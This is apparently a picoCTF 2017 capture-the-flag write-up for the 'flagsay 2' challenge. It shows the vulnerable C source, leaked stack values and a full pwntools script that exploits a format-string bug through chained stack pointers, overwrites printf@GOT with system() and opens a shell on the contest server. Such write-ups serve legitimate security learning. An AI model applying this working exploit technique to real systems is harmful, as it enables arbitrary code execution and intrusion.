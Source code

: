 ### Solved by Swappage

flagsay 2 was the "enhanced version" of flagsay, this was another format string vulnerability challenge, but this time we didn't have direct control over the stack.

To exploit this i used the following trick: by using format strings, if you find, in the leak of the stack, one address that points to another address also on the stack, you can abuse this situation to change the second pointer to a value of choice.

Ok this explanation sucks but here's the practical example that i abused on this challenge.. oh, and here is the source anyway

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

#define FIRSTCHAROFFSET 129
#define LINELENGTH 35
#define NEWLINEOFFSET 21
#define LINECOUNT 6

#define BUFFLEN 1024

char flag[] = "               _                                        \n"
	          "              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     \n"
	          "             //                                   /     \n"
	          "            //                                   /      \n"
	          "           //                                   /       \n"
	          "          //                                   /        \n"
	          "         //                                   /         \n"
	          "        //                                   /          \n"
	          "       //___________________________________/           \n"
	          "      //                                                \n"
	          "     //                                                 \n"
	          "    //                                                  \n"
	          "   //                                                   \n"
	          "  //                                                    \n"
	          " //                                                     \n";

void placeInFlag(char * flag, char * str){
	char * ptr = flag + FIRSTCHAROFFSET;
	char * lastInLine = ptr + LINELENGTH;
	size_t charRemaining = strlen(str);
	size_t linesDone = 0;
	while(charRemaining > 0 && linesDone < LINECOUNT){
		if(ptr == lastInLine){
			ptr += NEWLINEOFFSET;
			lastInLine += NEWLINEOFFSET + LINELENGTH;
			linesDone++;
			continue;
		}
		ptr[0] = str[0];
		ptr++;
		str++;
		charRemaining--;
	}

}



int main(int argc, char **argv){
	setbuf(stdout, NULL);

	size_t flagSize = strlen(flag) + 1; //need to remember null terminator
	char * input = (char *)malloc(sizeof(char) * flagSize);
	input[flagSize-1] = '\x0';
	char * tempFlag = (char *)malloc(sizeof(char) * flagSize);
	while(1){
		strncpy(tempFlag, flag, flagSize);
		tempFlag[flagSize-1] = '\x0';
		fgets(input, flagSize, stdin);
		char * temp = strchr(input, '\n');
		if(temp != NULL){
			temp[0] = '\x0';
		}

		placeInFlag(tempFlag, input);
		printf(tempFlag);
	}
	free(tempFlag);
	free(input);
}
```

generally when working with these kind of bugs, because we are working with relative addresses anyway, it's better to turn off aslr on the testing machine, so it becomes easier at first to understand what's going on.

the first thing i did was to leak quite a bunch of stack addresses:

		1 0x804a0da
		2 0xf7fa35a0
		3 0x8048722
		4 0x804a247
		5 0x804a368
		6 0x804a008
		7 0x358
		8 0xf7fa33dc
		9 0xffffd360
		10 (nil)
		11 0xf7e08276
		12 0x1
		13 0xf7fa3000
		14 (nil)
		15 0xf7e08276			<--- a libc address
		16 0x1
		17 0xffffd3f4			<--- points to the address in position 53
		18 0xffffd3fc			<--- points to the address in position 55
		19 (nil)
		20 (nil)
		21 (nil)
		...
		47 0x80486d0
		48 0x8048740
		49 0xf7fe88b0
		50 0xffffd3ec
		51 0xf7ffd918
		52 0x1
		53 0xffffd57f
		54 (nil)
		55 0xffffd5a0
		56 0xffffdb5c
		57 0xffffdb73
		58 0xffffdb82
		59 0xffffdb93
		60 0xffffdba8
		61 0xffffdbb3
		62 0xffffdbc8
		63 0xffffdbdc
		64 0xffffdbea
		65 0xffffdbf5
		66 0xffffdc1b
		67 0xffffdc2c
		68 0xffffdc36


it might not look quite obvious by just looking at the above list, but the pointers in position 17 and 18 points respectively to the memory location that is leaked at position 53 and 55

this means that we can use format strings to write arbitrary pointers at position 53 and 55, and then use these pointers later on to achieve an arbitrary write what where primitive

This time, again, we cant write pointers all in one shot, we have to make good use of partial overwrites, in this particular scenario, i used the first pointer (in position 17) to modify the value at position 53 so that it would point to position 54; then aligned the pointers properly so that they would point to higher and lower parts of addresses in the GOT.

I really used paper and pencil to make sense of the pointers, so here is some sort of rapresentation where i can show my 1337 paint m4d sk1llz

![](/images/2017/PicoCTF/flagsay2/1.png)

once we managed to write what we want on the GOT it's practically game over, we just make the application to invoke our desired function and we have a shell.

```python
#!/usr/bin/python

from pwn import *

#r = remote("localhost", 1337)
r = remote("shell2017.picoctf.com", 44887)

raw_input("Attach GDB now")

r.sendline("%15$p %17$p %18$p %53$p %55$p")
pointers = r.recv()
pointers = pointers.split("/")[4].split("   ")[0]

libc = pointers.split(" ")[0]
p1 = pointers.split(" ")[1]
p2 = pointers.split(" ")[2]
p3 = pointers.split(" ")[3]
p4 = pointers.split(" ")[4]

log.info("Pointer 1: " + p1)
log.info("Pointer 2: " + p2)
log.info("Pointer 3: " + p3)
log.info("Pointer 4: " + p4)

#
# libcbase on KALI:  %15$p - 0x18276
# libcbase on debian8: %15$p - 0x19a63
#
log.info("Libc leak: " + libc)
libc = int(libc,16)
libcbase = libc - 0x19a63
system = libcbase + 0x3e3e0

log.info("libc base: " + str(hex(libcbase)))
log.info("system: " + str(hex(system)))

# let's setup the stack
# we are forging the pointer @ p4 location that is at %55$p

#1 modify p3 to point to p4 HSB
# *p3 => *p2+2
p2lsb = p2[-4:]
p2lsb = int(p2lsb, 16)
log.info("p2lsb: " + str(hex(p2lsb)))
p2lsb = p2lsb + 2
log.info("p2lsb dest: " + str(hex(p2lsb)))
r.sendline("%" + str(p2lsb-0x81) + "c%17$hn")
r.recv()



#2 modify p4 lsb with arbitrary bytes
# we are going to use printf@GOT here
# fgets@GOT: 08049974
r.sendline("%39151c%18$hn")
r.recv()
r.sendline("%1923c%53$hn")
r.recv()

#
# create a second pointer on the stack to point at printf@GOT+2
# we use %54$p
#
p2lsb = p2lsb -6
log.info("p2lsb dest: " + str(hex(p2lsb)))
r.sendline("%" + str(p2lsb-0x81) + "c%17$hn")
r.recv()

r.sendline("%39153c%53$hn")
r.recv()

p2lsb = p2lsb +2
log.info("p2lsb dest: " + str(hex(p2lsb)))
r.sendline("%" + str(p2lsb-0x81) + "c%17$hn")
r.recv()

r.sendline("%1923c%53$hn")
r.recv()

#
# now %55$p points to printf@GOT
# %54p points to printf@GOT + 2
# time to write system()

systemstr = str(hex(system))
systemlsb = "0x" + systemstr[-4:]
systemhsb = systemstr[:6]

systemlsb = int(systemlsb, 16)
systemhsb = int(systemhsb, 16)
charcount = systemhsb - systemlsb


r.sendline("%" + str(systemlsb - 0x81) + "c%55$hn%" + str(charcount) + "c%54$hn")

r.interactive()
```
